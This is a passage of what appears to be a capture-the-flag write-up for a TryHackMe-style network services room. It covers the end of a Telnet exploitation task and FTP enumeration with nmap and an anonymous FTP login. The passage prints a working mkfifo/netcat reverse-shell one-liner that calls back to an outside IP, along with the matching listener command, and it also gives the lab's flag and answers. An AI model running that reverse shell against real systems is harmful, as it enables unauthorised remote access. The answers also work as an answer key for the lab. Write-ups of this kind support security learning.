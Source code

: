 This gave us `mkfifo /tmp/akjrjt; nc 10.4.38.142 4444 0</tmp/akjrjt | /bin/sh >/tmp/akjrjt 2>&1; rm /tmp/akjrjt`

So the starting word is 'mkfifo'

### What would the command look like for the listening port we selected in our payload?
`nc -lvp 4444`

### Success! What is the contents of flag.txt?
Did `.RUN mkfifo /tmp/akjrjt; nc 10.4.38.142 4444 0</tmp/akjrjt | /bin/sh >/tmp/akjrjt 2>&1; rm /tmp/akjrjt` and it worked.

Did `cat flag.txt` and got 'THM{y0u_g0t_th3_t3ln3t_fl4g}''


## Task 8 - Undertsanding FTP

### What communications model does FTP use?
client-server

### What's the standard FTP port?
21

### How many modes of FTP connection are there?   
2: active and passive


## Task 9 - Enumerating FTP

### How many ports are open on the target machine? 
2, Got from `nmap -T4 -p- 10.10.48.202`

### What port is ftp running on?
21

### What variant of FTP is running on it?  
Using `nmap -sV -p 21 10.10.48.202 ` found `vsftpd`

### What is the name of the file in the anonymous FTP directory?
Did `ftp 10.10.48.202`, entered 'anonymous' and skipped password.

Did `ls` and found 'PUBLIC_NOTICE.txt'

### What do we think a possible username could be?
Found 'mike' in the file.


## Task 10 - Exploiting FTP
